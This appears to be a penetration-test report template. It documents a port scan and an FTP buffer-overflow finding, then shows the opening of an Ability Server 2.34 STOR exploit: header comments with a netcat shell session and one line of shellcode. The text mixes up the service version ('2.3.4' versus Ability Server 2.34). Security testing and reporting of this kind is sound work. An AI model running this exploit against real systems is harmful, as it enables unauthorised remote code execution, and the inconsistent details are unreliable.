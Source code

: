 # Independent Challenges

## Target #1 - 192.168.x.x

### Service Enumeration

**Port Scan Results**

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.1.1       | **TCP**: 21,22,25,80,443

**FTP Enumeration**

_Upon manual enumeration of the available FTP service, John noticed it was running an outdated version 2.3.4 that is prone to the remote buffer overflow vulnerability._

### Initial Access - Buffer Overflow
	
**Vulnerability Explanation:** Ability Server 2.34 is subject to a buffer overflow vulnerability in STOR field.
Attackers can use this vulnerability to cause arbitrary remote code execution and take completely control over the system.

**Vulnerability Fix:** The publishers of the Ability Server have issued a patch to fix this known issue.
It can be found here: http://www.code-crafters.com/abilityserver/

**Severity:** Critical

**Steps to reproduce the attack:** The operating system was different from the known public exploit.
A rewritten exploit was needed in order for successful code execution to occur. Once the exploit was rewritten, a targeted attack was performed on the system which gave John full administrative access over the system.

**Proof of Concept Code Here:** Modifications to the existing exploit was needed and is highlighted in red.

```python
###################################
# Ability Server 2.34 FTP STOR Buffer Overflow
# Advanced, secure and easy to use FTP Server.
# 21 Oct 2004 - muts
###################################
# D:\BO>ability-2.34-ftp-stor.py
###################################
# D:\data\tools>nc -v 127.0.0.1 4444
# localhost [127.0.0.1] 4444 (?) open
# Microsoft Windows XP [Version 5.1.2600]
# (C) Copyright 1985-2001 Microsoft Corp.
# D:\Program Files\abilitywebserver>
###################################

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n"
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
```

[//]: CHANGE THIS